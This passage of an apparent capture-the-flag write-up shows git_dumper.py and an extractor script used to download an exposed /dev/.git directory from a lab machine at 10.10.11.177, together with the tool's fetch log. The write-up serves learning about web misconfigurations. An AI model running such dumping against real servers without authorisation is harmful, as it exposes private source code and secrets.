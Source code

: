 ```
cd ../Extractor
./extractor.sh /path/to/download/.git /path/to/extracted/
```

I found interesting files in the /dev/.git/objects/pack

<figure><img src="../../.gitbook/assets/4 (2).png" alt=""><figcaption></figcaption></figure>

lets downloaded all

I found anther tool anther that unpacks all in .git dir lets use it

```
./git_dumper.py  http://10.10.11.177/dev/.git/ ../../updown/
Warning: Destination '../../updown/' is not empty
[-] Testing http://10.10.11.177/dev/.git/HEAD [200]
[-] Testing http://10.10.11.177/dev/.git/ [200]
[-] Fetching .git recursively
[-] Fetching http://10.10.11.177/dev/.git/ [200]
[-] Fetching http://10.10.11.177/dev/.gitignore [404]
[-] http://10.10.11.177/dev/.gitignore responded with status code 404
[-] Fetching http://10.10.11.177/dev/.git/objects/ [200]
[-] Fetching http://10.10.11.177/dev/.git/description [200]
[-] Fetching http://10.10.11.177/dev/.git/logs/ [200]
[-] Fetching http://10.10.11.177/dev/.git/hooks/ [200]
[-] Fetching http://10.10.11.177/dev/.git/HEAD [200]
[-] Fetching http://10.10.11.177/dev/.git/info/ [200]
[-] Fetching http://10.10.11.177/dev/.git/index [200]
[-] Fetching http://10.10.11.177/dev/.git/branches/ [200]
[-] Fetching http://10.10.11.177/dev/.git/config [200]
[-] Fetching http://10.10.11.177/dev/.git/refs/ [200]
[-] Fetching http://10.10.11.177/dev/.git/objects/info/ [200]
[-] Fetching http://10.10.11.177/dev/.git/hooks/fsmonitor-watchman.sample [200]
[-] Fetching http://10.10.11.177/dev/.git/objects/pack/ [200]
[-] Fetching http://10.10.11.177/dev/.git/logs/HEAD [200]
[-] Fetching http://10.10.11.177/dev/.git/logs/refs/ [200]
[-] Fetching http://10.10.11.177/dev/.git/hooks/applypatch-msg.sample [200]
[-] Fetching http://10.10.11.177/dev/.git/info/exclude [200]
[-] Fetching http://10.10.11.177/dev/.git/hooks/commit-msg.sample [200]
[-] Fetching http://10.10.11.177/dev/.git/hooks/pre-applypatch.sample [200]
[-] Fetching http://10.10.11.177/dev/.git/hooks/post-update.sample [200]
[-] Fetching http://10.10.11.177/dev/.git/hooks/pre-commit.sample [200]
[-] Fetching http://10.10.11.177/dev/.git/hooks/pre-push.sample [200]
[-] Fetching http://10.10.11.177/dev/.git/hooks/pre-merge-commit.sample [200]
[-] Fetching http://10.10.11.177/dev/.git/hooks/pre-rebase.sample [200]
[-] Fetching http://10.10.11.177/dev/.git/hooks/prepare-commit-msg.sample [200]
[-] Fetching http://10.10.11.177/dev/.git/hooks/pre-receive.sample [200]
[-] Fetching http://10.10.11.177/dev/.git/hooks/push-to-checkout.sample [200]
```